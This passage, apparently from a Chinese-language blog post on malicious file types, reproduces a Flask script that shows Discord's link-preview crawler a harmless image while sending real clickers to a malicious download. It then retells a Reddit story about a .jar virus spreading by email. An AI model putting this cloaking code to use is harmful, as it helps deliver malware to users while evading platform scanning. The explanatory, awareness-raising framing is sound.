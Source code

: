 ```python
  Redirect = "RedirectLink" # You can just put the image here or you can put a custom site. You can combine this with my clipboard logger and it'll be more op lol https://github.com/TheonlyIcebear/Clipboard-Javascript-Logger
  # This is to get the ip
  if request.environ.get('HTTP_X_FORWARDED_FOR') is None:
    ip = request.environ['REMOTE_ADDR']
  else:
    ip = request.environ['HTTP_X_FORWARDED_FOR']
  print(ip)
  if ip.startswith('35.') or ip.startswith('34.'):
    # If discord is getting a link preview send a image
    return send_file(
    io.BytesIO(requests.get(Image).content),
    mimetype='image/jpeg',
    download_name='AnyName.png')
  else:
    # If a real person is clicking the link send a malicious file and redirect back to the image
    return f'''<meta http-equiv="refresh" content="0; url={Malicious}">
  # Run the Flask app
  app.run(
  host='0.0.0.0',
  debug=True,
  port=8080
  )
```

这个脚本搭建了一个服务来绕过discord对链接的检测。具体的做法是检测请求的ip，如果他是35.或者34.开头的，那就发回一张图片（这俩ip的属地都是美国，可能会有误判，但是discord海外用户很多，所以中招几率很大）。如果你不是这两ip，那你就倒霉了，当你点击链接时，你会开始下载恶意程序，然后立刻重新导向到一个别的网站（装作无事发生）。

### JAR

也就是我们常说的jar包，它可能被用作库，也有可能被用作一个单独的程序。因为是可执行的，所以也存在被攻击者利用的风险。我在找相关案例时找到了reddit上的一个[帖子](https://www.reddit.com/r/talesfromtechsupport/comments/38aama/ha_ha_a_virus_written_in_java_thats_cute_must_be/)：

受害人大哥是一所学校的网管，有天退休的体育部行政助理，一个六十几的老太太，联系他，说自己电脑中病毒了。大哥去她住处检查她的电脑，发现了一个“.jar“后缀的病毒，他当时觉得这个病毒看起来人畜无害的，删了就完事了。没想到一周后老太太的银行账户被盗了，原来是这个jar包已经自己复制了好几份。老太太遂又求助于网管大哥，大哥认为这次十分彻底地清理干净了病毒。没想到一周后，学校里很多人都收到了以老太太名义发送的邮件。要知道老太太是退休前是行政助理啊，通讯录里头有不少人的email地址。这封邮件大概是这样的：

> From: AthAA
>
> To: **All Faculty and Staff**
>
> Subject: **IMPORTANT**
>
> Please refer to the attachment carefully
>
> Thank you
>
> Attachment: **Payment_Invoice.JAR**

很多人都点开了附件里的jar包，不过万幸只有Windows用户中招（🐶），因为mac有验证，Chromebook和移动端运行不了。这场事故大概影响到了二十多个人，大哥最后总结说：

> Don't judge a book (virus) by its cover.
>
> 不要以貌取毒
